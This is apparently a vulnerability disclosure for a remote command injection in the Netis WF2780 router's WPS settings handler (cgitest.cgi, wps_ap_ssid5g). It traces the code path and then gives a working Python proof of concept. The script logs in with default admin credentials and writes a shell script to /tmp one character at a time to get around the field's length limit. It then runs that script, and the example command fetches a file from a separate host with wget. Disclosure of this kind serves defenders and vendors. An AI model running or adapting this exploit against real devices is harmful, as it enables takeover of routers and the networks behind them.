



# Command Injection via wps_ap_ssid5g in igd_wps_set


Affect device: Netis WF2780 V2.1.40144 (https://www.netis-systems.com/Suppory/de_details/id/1/de/189.html)

Vulnerability Type: Command Injection

Impact: Remote Code Execution(RCE)

## Vulnerability description

There is a remote command injection in the function `igd_wps_set` of the file `bin/cgitest.cgi`, we can control the `wps_ap_ssid5g` to attack.

In function `sub_477628` of file `bin/cgitest.cgi`, if there is `wps_set_5g` in http body, function `sub_46BEE4` will be called.



In function `sub_46BEE4`, `wps_ap_ssid5g` is copied to `&v23[97]`. 



`v23` is a structure like below:

```c
struct wps_ctx
{
  char wps_set_5g[32];
  char wps_enable5g;
  char wps_mode5g[32];
  char pin_host5g[32];
  char wps_ap_mac5g[32];
  char wps_ap_ssid5g[32];
  char not_wps_unlock_clicked5g;
  char wps_stop_wsc5g;
  char wps_reset_to_uncfg5g;
};
```

Then `v23` is referred by `v14` which is also a structure and passed t function `igd_wps_set`


In function `igd_wps_set`, `v3` is `wps_ctx` structure,




By setting parameters correctly, `wps_ap_ssid5g` will finally passed to v23.


## POC

Because the length of `wps_ap_ssid5g` is limited up to 0x20, we need some tricks to execute long commands.

```python
#!/usr/bin/env python3

import urllib.parse
import socket 


def send_cmd(ip, port, cmd):
    cmd = "\";"+cmd+";\""
    #print(f"cmd:{cmd}")
    body = "wps_set_5g=ap&wps_mode5g=cpin&wps_ap_ssid5g=" + urllib.parse.quote(cmd)
    request = "POST /cgi-bin-igd/netcore_set.cgi HTTP/1.1\r\n"
    request += f"Host: {ip}\r\n"
    request += "Content-Length: {}\r\n".format(len(body))
    request += "Authorization: Basic YWRtaW46YWRtaW4=\r\n"
    request += "Cache-Control: no-cache\r\n"
    request += "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36\r\n"
    request += "content-type: application/x-www-form-urlencoded\r\n"
    request += f"Origin: http://{ip}\r\n"
    request += f"Referer: http://{ip}/index.htm\r\n"
    request += "Accept-Encoding: gzip, deflate\r\n"
    request += "Accept-Language: zh-CN,zh;q=0.9\r\n"
    request += "Connection: close\r\n\r\n"
    request += body
    c = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    c.settimeout(8)
    c.connect((ip,port))
    c.send(request.encode())
    c.recv(1024)
    #print(c.recv(1024))

def main(ip, port, cmd):
    for i in range(len(cmd)):
        if i == 0:
            _cmd = f"echo \'{cmd[i]}\\c\' > /tmp/s.sh"
        else:
            _cmd = f"echo \'{cmd[i]}\\c\' >> /tmp/s.sh"
        send_cmd(ip, port, _cmd)
    
    send_cmd(ip, port, "chmod 777 /tmp/s.sh")
    send_cmd(ip, port, "sh /tmp/s.sh")
    


if __name__ == "__main__":
    main("192.168.1.1", 80, "cd /tmp;wget http://192.168.1.2:8888/a")
    #main("192.168.1.1", 80, "reboot")
```


